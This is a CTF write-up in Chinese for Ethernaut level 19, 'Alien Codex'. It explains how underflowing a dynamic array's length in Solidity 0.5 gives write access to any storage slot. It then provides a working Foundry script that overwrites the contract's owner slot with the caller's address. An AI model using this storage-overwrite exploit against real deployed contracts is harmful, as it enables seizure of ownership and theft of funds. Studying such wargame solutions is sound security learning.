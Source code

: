 # Ethernaut CTF Writeup

## Level 19 Alien Codex

> 題目: https://ethernaut.openzeppelin.com/level/0x734CfE306C0C4130051A194BA110BC808B13C439

原始碼:
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.5.0;

import "../helpers/Ownable-05.sol";

contract AlienCodex is Ownable {
    bool public contact;
    bytes32[] public codex;

    modifier contacted() {
        assert(contact);
        _;
    }

    function makeContact() public {
        contact = true;
    }

    function record(bytes32 _content) public contacted {
        codex.push(_content);
    }

    function retract() public contacted {
        codex.length--;
    }

    function revise(uint256 i, bytes32 _content) public contacted {
        codex[i] = _content;
    }
}
```

過關條件: 

- 取得合約所有權

解法：

- 合約中存在一個允許修改任意儲存位置的漏洞
- 呼叫 `makeContact()`：將 contact 設為 true，允許我們呼叫其他函數
- 呼叫 `retract()`：使 codex 的長度減少1，並 underflow 到最大長度，從而允許我們訪問並修改任意儲存槽
- 計算索引：儲存槽 slot 0 是 owner 的地址，透過越界訪問，可計算出 owner 所在的儲存槽索引 (`i= 2^256 − keccak256(1)`)
- 使用 `revise()`，傳遞索引及新的 owner 地址，將 owner 更改為 `msg.sender`

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "forge-std/Script.sol";
import "openzeppelin-contracts/contracts/access/Ownable.sol";

interface IAlienCodex {

    function owner() external view returns (address);

    function makeContact() external;

    function retract() external;

    function revise(uint i, bytes32 _content) external;

}

contract Attack is Script {
    IAlienCodex target = IAlienCodex(0x854fcd8eeC13A4E246fdb1da7268053D5b36CEe2);
    
    function run() public {
        vm.startBroadcast();
        // step 1
        target.makeContact();
        // step 2
        target.retract();
        // step 3
        uint256 n = uint256(keccak256(abi.encode(uint256(1))));
        uint256 i; // index
        unchecked { i -= n; }
        // step 4
        target.revise(i, bytes32(uint256(uint160(msg.sender))));

        vm.stopBroadcast();
    }
}
```